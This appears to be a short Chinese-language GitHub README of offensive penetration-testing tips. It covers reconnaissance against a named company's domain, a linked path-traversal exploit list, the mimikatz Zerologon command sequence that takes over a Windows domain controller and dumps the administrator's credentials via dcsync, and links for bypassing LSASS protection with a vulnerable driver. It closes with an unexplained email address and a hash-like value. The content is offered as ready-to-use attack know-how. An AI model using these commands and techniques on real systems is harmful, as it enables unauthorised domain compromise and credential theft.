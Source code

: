 # Web_Attack

记录一些渗透中的小技巧，帮助各位攻破各种"不可能"


验证Mail是否存在

http://mailtester.com/testmail.php


搜索Google群组,查看是否有群组，可以查看到邮箱 用户 或者 第三方域名

https://groups.google.com/a/binance.com/forum/


发现WEB-INF/web.xml，扩大攻击面

https://gist.githubusercontent.com/harisec/519dc6b45c6b594908c37d9ac19edbc3/raw/af521a3c730d4a77660e91ed41f51725cb0bbde3/exploit_path_traversals_in_Java_webapps.txt


Zerologon  突破 445

lsadump::zerologon /target:WIN-4MRAELMUJKS /account:WIN-4MRAELMUJKS$

lsadump::zerologon /target:WIN-4MRAELMUJKS /account:WIN-4MRAELMUJKS$ /exploit

lsadump::dcsync /domain:red.com /dc:WIN-4MRAELMUJKS /user:administrator /authuser:WIN-4MRAELMUJKS$ /authdomain:red /authpassword:"" /authntlm

lsadump::postzerologon /target:red.com /account:WIN-4MRAELMUJKS$

利用BYOvD漏洞加载mimidiv 来绕过Lsass保护
https://medium.com/@gorkemkaradeniz/defeating-runasppl-utilizing-vulnerable-drivers-to-read-lsass-with-mimikatz-28f4b50b1de5
https://github.com/alxbrn/gdrv-loader  POC

"sec@smartservice.com.cn"
"bfaec2da79d0955518c6beb581e09f47"







